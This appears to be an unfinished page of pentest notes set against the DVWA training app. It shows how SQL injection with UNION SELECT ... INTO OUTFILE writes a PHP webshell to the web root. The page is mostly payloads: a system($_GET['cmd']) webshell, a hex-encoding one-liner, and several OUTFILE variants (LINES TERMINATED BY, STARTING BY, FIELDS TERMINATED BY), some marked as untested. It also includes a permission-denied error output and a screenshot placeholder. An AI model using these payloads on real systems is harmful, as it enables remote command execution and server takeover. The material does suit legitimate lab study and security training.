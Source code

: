 2. Ensure the directory has write permissions.

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/www/shell.php'#
```

Here's the error message.

```
Can't create/write to file '/var/www/shell.php' (Errcode: 13 "Permission denied")
```

- **Save the webshell with an absolute path**

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

`<insert_screenshosts>`

- You can of course encode it with hexadecimal

```
$ echo -n "<?php system(\$_GET[\'cmd\']); ?>" | hexdump -v -e '/1 "%02x"' | sed 's/^/0x/'
0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e
```

```sql
' UNION SELECT 0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e, NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

- Write a webshell via `LINES TERMINATED BY` SQL query.

TODO: test this SQL query

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e#
```

- Write a webshell via `LINES STARTING BY` SQL query.

TODO: test this SQL query

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/shell.php' LINES STARTING BY 0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e#
```

- Write a webshell via `FIELDS TERMINATED BY` SQL query.

TODO: test this SQL query

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/shell.php' FIELDS TERMINATED BY 0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e#
```

- Write a webshell via `COLUMNS TERMINATED BY` SQL query.

TODO: test this SQL query
